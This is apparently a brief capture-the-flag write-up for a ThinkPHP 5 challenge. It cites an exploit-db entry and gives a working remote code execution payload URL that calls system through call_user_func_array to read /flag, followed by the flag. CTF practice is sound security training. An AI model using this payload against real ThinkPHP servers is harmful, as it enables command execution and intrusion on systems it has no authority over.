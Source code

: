 **Challenge:** `http://<Host given>/index.php`

Reference: https://www.exploit-db.com/exploits/45978

Payload:`index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=php%20-r%20'highlight_file("/flag");'`

**Flag:** flag{thinkphp5_rce}
